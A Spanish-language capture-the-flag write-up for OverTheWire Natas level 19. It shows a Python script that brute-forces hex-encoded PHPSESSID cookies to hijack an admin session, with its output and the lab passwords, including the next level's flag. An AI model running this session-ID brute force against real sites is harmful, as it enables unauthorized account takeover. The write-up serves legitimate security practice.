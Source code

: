 #Natas Level 18 → Level 19

Username: natas19

URL:      http://natas19.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas19.natas.labs.overthewire.org** 
- **Usuario    : natas19**
- **Contraseña : 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs**

La contraseña la hemos sacado del nivel anterior.

Entramos a la web y nos muestra dos campos donde tenemos que introducir el **usuario** y la **contraseña** para poder conseguir las credenciales para el nivel **natas20** pero en esta ocasión nos indican que las **PHPSESSID** no son secuenciales

```html
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
Please login with your admin account to retrieve credentials for natas20.
Username: 
Password:
```

Vemos que en el código fuente no encontramos nada así que vamos a ver el valor de la **COOKIE** **PHPSESSID**

```php
PHPSESSID = 3231372d61646d696e
```

Parece que ya no es un valor numérico sino otro formato. 

Probamos a decodificarlo en diferentes formatos y nos damos cuenta de que el texto está en **HEX** por lo que le pasamos un **DECODER** y miramos que nos sale

```php
PHPSESSID = 3231372d61646d696e     ->  Hex2ASCII   -> PHPSESSID = 217-admin
```

Viendo el reto anterior, podemos deducir que también tiene 640 sesiones posible para usuarios y admin. 

En este caso, seguramente podamos crear un patrón del siguiente tipo y luego codificarlo en **HEX**

```php
201-admin
202-admin
203-admin
204-admin
```

Así que vamos a crear otro script en python para que nos automatice la tarea de nuevo. 

Vamos a utilizar el código del nivel anterior pero modificandole la linea del **SESSID** donde la codificaremos a **HEX** como nos indican.

En un alarde de originalidad, vamos a ponerle el nombre de **natas19.py** :smile:

```python
import requests
 
for sessid in range(641):
	payload = ""+(str(sessid)+'-admin').encode('hex')
	r = requests.get('http://natas19.natas.labs.overthewire.org?debug=1', 
		auth=('natas19', '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'), 
		cookies={'PHPSESSID':str(payload)})
 
	if 'You are an admin' in r.content:
	    print r.content 
	    break
	else:
		print "PHPSESSID ->\t {0} - {1}\t NOPE :( ".format(str(sessid),payload)
```

Lo ejecutamos y esperamos a ver el resultado.

```bash
ikerburguera@:~/Desktop$ python natas19.py
PHPSESSID ->	 0 - 302d61646d696e	 NOPE :( 
PHPSESSID ->	 1 - 312d61646d696e	 NOPE :( 
PHPSESSID ->	 2 - 322d61646d696e	 NOPE :( 
PHPSESSID ->	 3 - 332d61646d696e	 NOPE :( 
...
PHPSESSID ->	 591 - 3539312d61646d696e	 NOPE :( 
PHPSESSID ->	 592 - 3539322d61646d696e	 NOPE :( 
PHPSESSID ->	 593 - 3539332d61646d696e	 NOPE :( 
PHPSESSID ->	 594 - 3539342d61646d696e	 NOPE :( 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>
</body>
</html>
```

Y nos devuelve la password del siguiente nivel! :smile:

**FLAG** = {eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF}


